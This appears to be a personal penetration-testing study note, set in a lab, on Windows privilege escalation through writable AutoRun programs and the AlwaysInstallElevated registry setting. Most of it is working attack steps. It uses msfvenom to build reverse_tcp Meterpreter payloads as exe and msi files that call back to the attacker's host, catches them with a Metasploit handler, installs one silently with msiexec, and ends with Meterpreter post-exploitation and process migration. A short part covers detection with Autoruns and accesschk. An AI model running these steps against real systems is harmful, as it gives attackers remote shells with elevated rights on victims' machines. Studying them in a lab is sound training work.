 ```yaml
---
title: Registry Attacks / AutoRun/Always Install Elevated
updated: 2023-11-03 08:17:04Z
created: 2023-10-03 02:12:05Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# Registry Attacks

# Startup Applications

Check for applications in AutoRun folder  
`reg query HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

reg query HKEY\_CURRENT\_USER\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run

## Detection

**Windows VM**

1.  Open command prompt and type: `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe`
2.  In Autoruns, click on the ‘Logon’ tab.
3.  From the listed results, notice that the “My Program” entry is pointing to “C:\\Program Files\\Autorun Program\\program.exe”.
4.  In command prompt type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"`
5.  From the output, notice that the “Everyone” user group has “FILE\_ALL\_ACCESS” permission on the “program.exe” file.

## Exploitation

**Kali VM**

1.  `msfconsole`
2.  `use multi/handler`
3.  `set payload windows/meterpreter/reverse_tcp`
4.  `set lhost [Kali VM IP Address]`
5.  `run`  
    Create payload:
6.  `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe`
7.  Copy the generated file, program.exe, to the target machine.

**Windows target**

1.  Place program.exe in ‘C:\\Program Files\\Autorun Program’.
2.  To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

**Kali VM**

1.  Wait for a new session to open in Metasploit.
2.  In Metasploit (msf > prompt) type: sessions -i \[Session ID\]
3.  To confirm that the attack succeeded, in Metasploit (msf > prompt) type: getuid

* * *

# Always Install Elevated

1.  `reg query HKLM\Software\Policies\Microsoft\Windows\Installer`
2.  `reg query HKCU\Software\Policies\Microsoft\Windows\Installer`
3.  Check if “**AlwaysInstallElevated**” value is **0x1**.
4.  Check permissions on key

## Exploitation

**Kali VM**

1.  `msfconsole`
2.  `use multi/handler`
3.  `set payload windows/meterpreter/reverse_tcp`
4.  `set lhost [Kali VM IP Address]`
5.  `run`  
    Create payload:
6.  `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi`
7.  Copy the generated file, **setup.msi**, to the Windows target.

**Windows VM**

1.Place ‘**setup.msi**’ in ‘**C:\\Temp**’.  
2.cmd> **msiexec /quiet /qn /i C:\\Temp\\setup.msi**

* * *
# Meterpreter
1. Establish initial session with Meterpreter
2. `run post/multi/recon/local_exploit_suggester`
3. `use exploit/windows/local/always_installed_elevated`
4. `exploit -j`
5. If nessary, migrate to a system level "1" process
6. Locate process using `ps` , then `migrate <psid>`
7. 